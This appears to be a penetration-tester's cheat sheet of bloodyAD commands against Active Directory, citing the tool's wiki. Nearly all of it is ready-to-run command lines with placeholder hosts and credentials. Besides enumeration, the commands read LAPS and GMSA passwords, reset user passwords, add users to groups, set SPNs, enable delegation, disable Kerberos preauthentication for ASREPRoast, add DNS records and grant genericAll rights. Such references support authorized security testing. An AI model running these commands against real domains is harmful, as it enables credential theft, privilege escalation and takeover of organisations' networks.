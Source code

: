 > https://github.com/CravateRouge/bloodyAD/wiki/Access-Control

```console
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get children 'DC=<DOMAIN>,DC=<DOMAIN>' --type user                       // Get all users of the domain
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get children 'DC=<DOMAIN>,DC=<DOMAIN>' --type computer                   // Get all computers of the domain
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get children 'DC=<DOMAIN>,DC=<DOMAIN>' --type container                  // Get all containers of the domain
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get dnsDump                                                              // Get AD DNS records
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object Users --attr member                                           // Get group members
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object 'DC=<DOMAIN>,DC=<DOMAIN>' --attr msDS-Behavior-Version        // Get AD functional level
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object 'DC=<DOMAIN>,DC=<DOMAIN>' --attr minPwdLength                 // Get minimum password length policy
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object 'DC=<DOMAIN>,DC=<DOMAIN>' --attr ms-DS-MachineAccountQuota    // Read quota for adding computer objects to domain
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object '<USERNAME>' --attr userAccountControl                        // Get UserAccountControl flags
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object '<ACCOUNTNAME>$' --attr ms-Mcs-AdmPwd                         // Read LAPS password
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> get object '<ACCOUNTNAME>$' --attr msDS-ManagedPassword                  // Read GMSA account password
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k get object '<ACCOUNTNAME>$' --attr msDS-ManagedPassword                           // Read GMSA account password using Kerberos
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set password '<USERNAME>' '<PASSWORD>' --kerberos --dc-ip <RHOST>        // Set a password for a user
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set object '<USERNAME>' servicePrincipalName                             // Set a Service Principal Name (SPN)
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k set object '<USERNAME>' servicePrincipalName                                      // Set a Service Principal Name (SPN) using Kerberos
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k set object '<USERNAME>' servicePrincipalName -v 'cifs/<USERNAME>'                 // Set a Service Principal Name (SPN) using Kerberos
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -u <USERNAME> -k set object '<USERNAME>' altSecurityIdentities -v 'X509:<UPN=<USERNAME>@<DOMAIN>>/CN=<CN>'    // Set a email address within a certificate
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add uac '<MACHINE_ACCOUNT>$' -f TRUSTED_FOR_DELEGATION                    // Enable machine account for as trusted for delegation
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add groupMember '<GROUP>' '<USERNAME>'                                   // Add user to a group
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k add groupMember '<GROUP>' '<USERNAME>'                                            // Add user to a group using Kerberos
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add computer '<USERNAME>' '<PASSWORD>'                   // Add a computer object on behalf of a user
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add dnsRecord <RECORD> <LHOST>                                           // Add a new DNS entry
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add uac '<USERNAME>' DONT_REQ_PREAUTH                                    // Enable DONT_REQ_PREAUTH for ASREPRoast
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k add uac '<USERNAME>' -f DONT_REQ_PREAUTH                                          // Enable DONT_REQ_PREAUTH for ASREPRoast using Kerberos
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add genericAll 'OU=<OU>,DC=<DOMAIN>,DC=<DOMAIN>' '<USERNAME>'    // Add genericAll permissions to a specific OU
